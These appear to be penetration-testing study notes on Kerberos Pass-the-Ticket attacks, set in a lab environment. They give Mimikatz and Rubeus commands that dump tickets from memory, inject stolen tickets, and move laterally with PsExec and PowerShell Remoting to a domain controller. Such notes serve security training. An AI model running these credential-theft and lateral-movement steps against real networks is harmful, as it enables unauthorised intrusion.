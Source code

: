 ### Content
- [PtT from Windows](#ptt-from-windows)
- [Conduct internal reconnaissance](#conduct-internal-reconnaissance)
- [Access resources as the another user](#access-resources-as-the-another-user)
- [Pass The Ticket with PowerShell Remoting (Windows)](#pass-the-ticket-with-powershell-remoting-(windows))
	- [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
	- [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)
---
- In this attack, we use a stolen Kerberos ticket to move laterally
- A valid Kerberos ticket required to perform a `(PtT)` can be:
	- `TGS` to allow access to a particular resource.
	- `TGT` to request service tickets to access any resource the user has privileges on.
- **As a non-administrative user**, you can only get your tickets, but **as a local administrator**, you can collect everything.
---
## PtT from Windows
1. Mimikatz
	``` Powershell
	# Collect tickets
	PS> mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
	########
	# mimikatz outputs all tickets to screen and also writes them individually to files in the current directory.
	# Computer account ticket: Ends with $ and needs a ticket to interact with AD
	# User ticket: [randomvalue]-username@service-domain.local.kirbi
	# If service = krbtgt then the ticket is the TGT of that account 
	#########
	
	# Inject tickets, the ticket will be in the current command prompt. 
	PS> mimikatz.exe "privilege::debug" "kerberos::ptt [0;1e4c7df]-2-0-40e10000-joed@krbtgt-DOMAIN.COM.kirbi exit"
	
	# If we don't want to exit mimikatz and just want to spawn new CMD shell with the injected ticket
	# run `mimikatz # misc::cmd`
	```
2. Rubeus
	``` Powershell
	# Collect tickets
	PS> Rubeus.exe dump /nowrap
	
	# Convert .kirbi to Base64 blob, in case we extracted tickets by mimikatz
	PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[randomvalue]-username@service-domain.local.kirbi"))
	
	# Inject ticket kirbi file
	PS> Rubeus.exe ptt /ticket:<.kirbi file>
	# Inject ticket base64 blob
	PS> Rubeus.exe ptt /ticket:<Base64Blob>
	```
---
## Conduct internal reconnaissance
Once a stolen ticket is ready for reuse, the threat actor needs to determine where it can be used:
``` Powershell
PS> net user joed /domain
```
### Access resources as the another user
Used after injecting ticket with either Rubeus or Mimikatz
``` Powershell
PS> .\PsExec.exe \\workstation456 powershell.exe
```
---
## Pass The Ticket with PowerShell Remoting (Windows)
- Enabling [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) creates both HTTP port TCP/5985 and HTTPS port TCP/5986 listeners.
- To create a PowerShell Remoting session on a remote computer, you must have `administrative permissions`, be a member of the `Remote Management Users group`, or have explicit `PowerShell Remoting permissions` in your session configuration.
#### Mimikatz - PowerShell Remoting with Pass the Ticket
``` Powershell
# Once the ticket is imported into our sesssion, if it's a cmd session, open powershell 
PS> mimikatz.exe "privilege::debug" "kerberos::ptt [0;1e4c7df]-2-0-40e10000-joed@krbtgt-DOMAIN.COM.kirbi"

# Use the command Enter-PSSession to connect to the target machine.
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\joed\Documents> whoami
doamin\joed
[DC01]: PS C:\Users\joed\Documents> hostname
DC01
```
#### Rubeus - PowerShell Remoting with Pass the Ticket
Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.
``` CMD
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
# The above command will open a new cmd window.
# From that window, we can execute Rubeus to request a new TGT 
# with the option /ptt to import the ticket into our current session 
# Then connect to the DC using PowerShell Remoting.
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256: /ptt
c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
---


